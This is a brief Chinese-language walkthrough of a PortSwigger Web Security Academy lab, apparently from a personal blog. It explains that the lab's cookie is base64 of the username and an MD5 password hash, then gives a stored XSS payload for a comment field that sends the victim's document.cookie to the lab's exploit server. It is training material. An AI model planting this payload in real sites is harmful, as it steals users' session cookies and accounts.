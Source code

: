 删除用户操作需要输入用户cookie。



1. 登陆wiener用户发现。其cookie，由base64编码wiener:md5(密码）组成



2. 通过xss获取carloas用户cookie

发现文章评论处存在xss漏洞。payload:

```javascript
<script>
document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie
</script>
```



将url跟改为burp客户端url或者实验提供的利用服务器都可以。



3. 提交评论之后，在利用服务器获取到用户cookie

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/认证方式/images/37686424729E4782A555E5CDBC7423B7clipboard.png)



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/认证方式/images/AE524586DF254AE08709A8C587FCD195clipboard.png)



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/认证方式/images/D69E452D8915426E867EB5EA2BD5E729clipboard.png)

